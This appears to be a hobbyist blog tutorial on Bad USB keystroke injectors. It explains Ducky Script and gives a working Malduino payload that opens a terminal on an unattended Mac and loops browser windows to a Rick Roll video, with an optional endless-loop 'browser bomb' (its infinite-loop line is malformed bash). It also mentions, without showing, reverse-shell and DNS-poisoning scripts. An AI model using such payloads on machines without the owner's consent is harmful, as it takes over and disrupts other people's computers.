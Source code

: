 ```yaml
---
title: "Introduction to Keyboard Injectors with Rick Astley (UNFINISHED)"
date: 2020-02-11
tags: [Advanced Projects, Bash]
header:
  image: "images/maltronix.jpg"
excerpt: "Use a Malduino to launch a Rick Roll bomb on an unattended computer"
---
```




# DISCLAIMER:
Code in this project utilizes your browser for purposes it was not intended for and could potentially damage computer hardware if used excessively. Do not plug a bad USB into any computer without the proper permissions from its owner.


## Bad USBs:
Computers, printers, external drives, scanners, and cameras, they all have one thing in common, a Universal Serial Bus(USB) socket. conveniently, nearly every one of these devices has no security measures in place to prevent harmful devices from being plugged in, the operating system essentially allows the USB to do whatever it wants because anti-virus software cannot access the software on a USB. A "Bad USB" is a USB drive with the microcontroller's firmware reprogrammed in such a way that allows it to be used for malicious purposes.


## Keyboard Injectors
A Keyboard injector is a Bad USB programmed to initiate keystrokes at superhuman speeds once plugged in.

![Keyboard-Injector](/images/injector.gif){:class="img-responsive"}

One such device is the [Malduino](https://maltronics.com/collections/malduinos) by Maltronics. As the name suggests the Malduino is a "bad" Arduino setup using [Arduino's IDE](https://www.arduino.cc/en/main/software).

The Malduino Elite has 4 switches corresponding to binary values 1 and 0. Depending on the switch combination a particular script stored on the micro sd card will execute. I.g. 1010.txt for gaining a reverse shell and 1110.txt for DNS poisoning.  
![malduino](/images/malduino_img.jpg){:class="img-responsive"}
## Ducky Script Basics
The Malduino uses a scripting language called ducky script (lines are executed successively).
### DELAY
DELAY adds a pause in milliseconds to the script. This is useful if you want to give a process time to finish before executing the next line. The following is a delay of 1 second:
```
DELAY 1000
```
### STRING and ENTER
STRING is used to simulate characters typed on the keyboard. For example, 
```
STRING Hello!
```
would simulate the user typing "Hello!" on the keyboard. 
ENTER emulates the enter key.
```
STRING Hello!
ENTER
```
This will become useful once you need to navigate cmd/terminal or a built in search such as Spotlight.
### GUI
GUI simulates the Super key(Mac: command Windows: Windows key). With this you gain access to various keyboard shortcuts.
```
GUI r
STRING cmd
ENTER
```
This script uses the Windows-key+r shortcut to pull up the Windows' “Run” box, type out cmd, and hit enter.
## The Script:
Firstly, access a shell/cmd using the methods mentioned above. For mac, access spotlight then navigate to the terminal with the proper delay times (tweak delays so script runs as fast as possible). 
```
DELAY 2000
GUI space
DELAY 500
STRING terminal
DELAY 500
ENTER
```
Next access a bash shell (in case bash isn't the default shell) so we can quickly write out the browser bomb script
*The delays are too long. Make sure to tweak them for efficiency*
```
DELAY 500
STRING bash
DELAY 500
ENTER
```
Create an index variable and a while loop that uses -le (less than) to decide how many browsers to open. For now I'm using 5 meaning 5 browsers will open. 
```
STRING N=0
DELAY 500
ENTER
DELAY 500
STRING while [ $N -le 5 ]; do
DELAY 500
ENTER
```
*Use to run an infinite loop*

```
STRING while: do
```
Use **open** to open a browser with the specified link. With Windows, open internet explorer then enter the link.
Lastly, add to the index variable and end the while loop.
```
DELAY 500
STRING open https://www.youtube.com/watch?v=dQw4w9WgXcQ
DELAY 500
ENTER
DELAY 500
STRING N=$(( $N + 1 ))
DELAY 500
ENTER
DELAY 500
STRING done
DELAY 500
ENTER
DELAY 500
```
### Next
Check out gaining a reverse shell on any unattended computer with Malduino
